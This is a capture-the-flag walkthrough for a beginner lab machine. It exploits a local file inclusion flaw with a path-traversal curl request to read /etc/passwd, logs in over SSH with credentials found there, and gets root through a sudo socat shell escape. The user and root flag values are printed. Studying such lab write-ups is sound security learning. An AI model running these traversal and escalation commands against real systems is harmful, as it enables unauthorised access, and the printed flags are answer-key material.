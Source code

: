 # Inclusion

## Description

This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability. 

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web

I started with the webpage and there is only one directory: `/article`. The webpage itself is very simple. It has a few articles which are accessible from that directory. Let's make things short. We know this machine is vulnerable to LFI (Local File Inclusion), so we can try the common things.

## LFI

The first thing I tried worked and I read the content of `/etc/passwd`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Inclusion/files]
└─$ curl -s "http://$IP/article?name=../../../../../etc/passwd"
<!DOCTYPE html>

<html>
    <body>

            root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword             <----------------------
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false

    </body>
</html>
~~~

As you can see the credentials for the only existing user on the machine is here, which means we can easily log in as that user. The passwords in a linux machine are usually saved as hashes in `/etc/shadow` but the developer probably needed the password to be here due to the codes:

Creds: `falconfeast:rootpassword`

## User Flag

Now we can connect via SSH and look for the flags:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Inclusion/files]
└─$ ssh falconfeast@$IP         
falconfeast@10.10.200.86's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 23 20:15:13 IST 2021

  System load:  0.08              Processes:           85
  Usage of /:   35.0% of 9.78GB   Users logged in:     0
  Memory usage: 65%               IP address for eth0: 10.10.200.86
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$ id
uid=1000(falconfeast) gid=1000(falconfeast) groups=1000(falconfeast),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
~~~

You can find the user flag in the active directory:

~~~
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
~~~

User flag: `60989655118397345799`

## Root Flag

### PrivEsc

Now we need to obtain the root flag. I ran `sudo -l` to check my permissions and could run `socat` with sudo and no password:

~~~
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
~~~

I checked [GTFOBins](https://gtfobins.github.io/) and found a command that can gain us the root access:

~~~
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
~~~

### Root Flag

The command worked and now we are root, so we can simply navigate to `/root` and read the root flag:

~~~
cd /root
ls
root.txt
cat root.txt
42964104845495153909
~~~

Root flag: `42964104845495153909`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun hacking!

And have a good one! : )